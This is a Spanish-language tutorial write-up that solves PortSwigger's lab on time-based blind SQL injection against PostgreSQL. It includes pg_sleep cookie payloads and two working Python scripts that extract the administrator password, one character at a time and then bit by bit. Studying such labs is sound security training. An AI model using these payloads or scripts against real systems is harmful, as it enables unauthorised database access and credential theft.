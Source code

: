 ```yaml
---
layout: default
title: Ejercicio práctico
permalink: /injection_types/blind/time_based_type/time_based_exercise
nav_order: 1
parent: 4.3 Basadas en tiempo
grand_parent: 4. Inyecciones ciegas
---
```


# Ejercicio practico de inyección ciega basada en tiempo

> Ejercicio basado en el laboratorio "Lab: Blind SQL injection with time delays and information retrieval" de Web Security Academy (PortSwigger).


## Consigna

Este laboratorio contiene una vulnerabilidad de inyección de SQL ciega. La aplicación usa una cookie de rastreo (*tracking*) para análisis y ejecuta una consulta SQL con el valor de esta cookie. 

Los resultados de la consulta SQL no se devuelven, y la aplicación no responde de manera diferente en función de si la consulta devuelve filas o causa un error. Sin embargo, dado que la consulta se ejecuta sincrónicamente, es posible activar retrasos de tiempo condicionales para inferir información.

La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`.

Para resolver el laboratorio, obtener el usuario y contraseña del usuario `administrator` e iniciar sesión con estas credenciales.

## Resolución manual + automatización con Python

Luego de un primer acceso a la aplicación y por sugerencia de la consigna, analizando las cookies se observa que figura una llamada `TrackingId` con un valor alfanumérico. Para modificarla en pedidos siguientes es pertinente usar un proxy de ataque como OWASP ZAP para practicidad.

Inicialmente podemos validar la existencia de la vulnerabilidad de cualquiera de las formas mencionadas en [4.3 Basadas en tiempo](/test-page/injection_types/blind/time_based_type/time_based_exercise) para cada tipo de base. Por lo que modificando `TrackingId` de la siguiente manera se puede validar la que resulta válida:

```
TrackingId=ggg'||(SELECT pg_sleep(5))--
```

De este *payload* válido se deduce que el DBMS es PostgreSQL y variando los segundos de demora en `pg_sleep` se logra inferir un tiempo lo más bajo posible **que no se confunda con una demora común** de respuesta. 

Antes de extraer la contraseña del administrador y es pertinente conocer la longitud de la misma. Basado en el ejemplo de demora condicional para PostgreSQL que se encuentra en la [SQL injection cheat sheet de PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet), este es un posible fragmento de SQL que funciona:

```sql
SELECT CASE WHEN (LENGTH(password)=1) 
    THEN pg_sleep(5) ELSE pg_sleep(0) END 
    FROM users WHERE username='administrator'
```

Reemplazándolo en la cookie:

```
TrackingId=ggg'||(SELECT CASE WHEN (LENGTH(password)=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
```

De esta manera solo se debe ir variando el número de largo comparado del número, manualmente o automatizado como se explica en los ejercicios anteriores (con *Fuzzer* de OWASP ZAP o *Intruder*/*Turbo Intruder* de Burp Suite). Como en los otros ejercicios, la longitud es 20.

Para extraer la contraseña, teniendo en cuenta que se conoce la tabla, las columnas y hasta el nombre del usuario, una forma simple y eficaz sería con el siguiente fragmento de SQL:

```sql
SELECT CASE WHEN SUBSTRING(password,%d,1)='%s' 
    THEN pg_sleep(5) ELSE pg_sleep(0) END 
    FROM users WHERE username='administrator')
```

Dado que el enfoque para automatizar la solución es con Python, en lugar de un número para posición del *substring* o un caracter a comparar con el *substring*, se utilizan los marcadores de posición `%d` y `%s` respectivamente. Esto permite sustituir con reemplazos de Python tales posiciones con valores reales de esos tipos de datos (`int` y `string`). De esta manera se puede ir probando entre las diferentes combinaciones en `%d` (para iterar entre cada posición de la contraseña del 1 al 20) y `%s` (para iterar sobre todas posibles opciones de caracteres alfanuméricos).

Para automatizar las consultas, el siguiente es un ejemplo de *script* básico en Python 3 en el que apoyarse:

```python
#!/usr/bin/python3
import requests,time,sys,string

# URL del laboratorio
url = 'https://LAB-ID.web-security-academy.net'
# Caracteres alfanuméricos (sin mayúsculas)
characters = string.ascii_lowercase + string.digits 
password = ""
cookie = ("XYZ'||(SELECT CASE WHEN SUBSTRING(password,%d,1)='%s' " 
    "THEN pg_sleep(2) ELSE pg_sleep(0) END " 
    "FROM users WHERE username='administrator')--")

print("[*] Iniciando SQLi")
# Posiciones de la contraseña del 1 al 20
for position in range(1,21): 
    for character in characters:
        cookies = { "TrackingId": cookie % (position, character) }
        time_start=time.time()
        requests.get(url, cookies=cookies)
        time_end = time.time()

        # Tiempo de respuesta mayor a 2 segundos (inyección exitosa)
        if time_end - time_start > 2:
            password += character
            sys.stdout.write(character)
            sys.stdout.flush()
            break

print("\n[+] Password: %s" % (password))
```

Para este ejemplo se tuvo en cuenta que la contraseña del administrador solo posee letras minúsculas y números. En un caso diferente, habría que incluir dentro de la lista `characters` todos los caracteres posibles para la contraseña (letras mayúsculas y caracteres especiales).


## Optimización con conversión binaria

La desventaja de iterar por lista de caracteres es que requiere una alta cantidad de consultas para probar todas las  posibles combinaciones, si bien se realiza mediante un *script* para automatizarlo, para optimizar la cantidad de consultas, es conveniente apoyarse en los consejos de optimización descritos en la sección [4.1 Inyeccion SQL ciega con respuestas condicionales](/test-page/injection_types/blind/conditional_type#optimizaciones).

La optimización de utilizar una conversión a binario del caracter a adivinar implica convertirlo primero a su representación numérica (con `ASCII()`), luego a *byte* con un *cast* (`::bit(8)`) y finalmente tomar bit por bit de ese byte resultante. Cada bit se compara con `0` o `1` y el resultado se acumula hasta completar 8 pedidos. Completado este proceso, se obtiene un byte que es directamente convertible a caracter.

La consulta condicional SQL pasa a ser:

```sql
SELECT CASE WHEN 
    SUBSTRING(ASCII(SUBSTRING(password,%d,1))::bit(8),%d,1)=0::bit(1)
```

El primer `%d` corresponde a la posición de caracter de contraseña (1 a 20) y el segundo a la posición de bit (1 a 8). El *script* modificado para reconstruir cada byte es el siguiente:

```python
#!/usr/bin/python3
import requests,time,sys

# URL del laboratorio
url = 'https://LAB-ID.web-security-academy.net'
password = ""
cookie = ("XYZ'||(SELECT CASE WHEN SUBSTRING(ASCII(SUBSTRING(password,%d,1))::bit(8),%d,1)=0::bit(1) "
    "THEN pg_sleep(2) ELSE pg_sleep(0) END "
    "FROM users WHERE username='administrator')--")

print("[*] Iniciando SQLi")
# Posiciones de la contraseña del 1 al 20
for position in range(1,21):
    byte = ""
    # Posiciones de bit del 1 al 8
    for bit_position in range(1,9):
        cookies = { "TrackingId": cookie % (position, bit_position) }
        time_start=time.time()
        requests.get(url, cookies=cookies)
        time_end = time.time()

        # Tiempo de respuesta mayor a 2 segundos (inyección exitosa)
        if time_end - time_start > 2:
            byte += "0"
        else:
            byte += "1"

    extracted_chr = chr(int(byte,2))
    password += extracted_chr
    sys.stdout.write(extracted_chr)
    sys.stdout.flush()

print("\n[+] Password: %s" % (password))
```
